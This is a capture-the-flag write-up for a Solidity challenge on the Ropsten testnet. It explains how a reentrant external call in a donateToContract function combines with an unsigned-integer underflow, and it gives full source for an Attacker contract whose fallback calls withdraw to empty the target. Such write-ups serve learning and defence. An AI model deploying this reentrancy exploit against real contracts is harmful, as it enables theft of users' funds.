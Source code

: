# Writeup - Velgørenhed (Blockchain - Underflow & Reentrency)
# We are presented with a link to a website that deploys a contract on the Ropsten testnet. We are given the source code to the smart contract and a contract address. Our goal is to empty the contract for funds.
![CTF objective](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213040.png)

We are first going to take a look at the smart contract to look for any potential vulnurabilites. 
![Source code](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213051.png)
When looking through the smart contract (either by hand or by using a tool like slither) you may notice the function donateToContract.
```javascript
   function donateToContract(uint amount) public payable{
        require(amount <= donatorBalance[msg.sender], 'Insufficient balance');
        require(!donatedToContract[msg.sender], 'Can only donate to contract once!');
        donatedToContract[msg.sender]=true;
        charityBalance[address(this)] += amount;
        msg.sender.call{value: 0}("Thanks for your donation.");
        donatorBalance[msg.sender] -= amount;        
   }
```

What is interesting about this function is that it does a call before setting the donaterBalance. This allows us to create a fallback that executes code and changes the state of the contract before the last line of code is executed in the function. The idea behind this is to change donatorBalance to a value lower than the variable amount. Doing this will create a underflow. And since donatorBalance is a uint (unsigned integer) it will wrap around giving us an insanely high donatorBalance.

#### Execution
To execute the smart contract functions we are going to use ![Ethereum remix](https://remix.ethereum.org/). We are going to create two files. A attack.sol and a file named charity.sol. The charity file contains the source code of the smart contract. While the attack.sol is something we have to write ourselves.

##### Creating attack.sol
Looking onlien we can find examples of reentrency attacks. If we modify these examples we can use them here. We create a attack function that first executes the deposit function to deposit 0.1 ether. When we have deposited the ether we can then execute the vulnurable donateToContract function. We then have a fallback function that runes right before the donatorBalance is changed giving us an opportunity to withdraw our 0.1 ether. This leaves the donatorBalance at 0 untill after our fallback function is done executing as the donateToContract function executes the last line of code subtracting 0.1 ether from our donatorBalance that is 0. This create a underflow as 0 - 0.1 would be a negative value thus wrapping the unsigned integer around giving us a large donatorBalance.
```javascript
pragma solidity 0.7.4;

import './charity.sol';

contract Attacker {
    Charity public charity;
    bool firstcall = true;
    
    constructor(address _etherBankAddress) {
        charity = Charity(_etherBankAddress);
    }
    
    function attack() public payable {
        firstcall = true;
        charity.deposit{ value: 1000000000000000 wei}();
        charity.donateToContract(1000000000000000 wei);
        charity.withdraw();
    }

    fallback() external payable {
        if(firstcall == true) {
            firstcall = false;
            charity.withdraw();
    }}
    
    function getBalance() public view returns(uint) {
        return address(this).balance;
    }
}
```

#### Withdraw
Now that our donatorBalance is a very high value we just use the withdraw function to withdraw. The withdraw function is set to withdraw all funds of the account even though we have a higher donatorBalance than the actual balance of the account.

#### Results
When we have withdrawn the funds from the contract we are left with an empty contract. This meets the goal set in the challenge. So we just go back and click on the button called "Check solved". This will give us our flag.
![Results](https://github.com/Super02/ctf-writeups/blob/main/Velg%C3%B8renhed/Screenshot%202022-05-10%20213021.png)
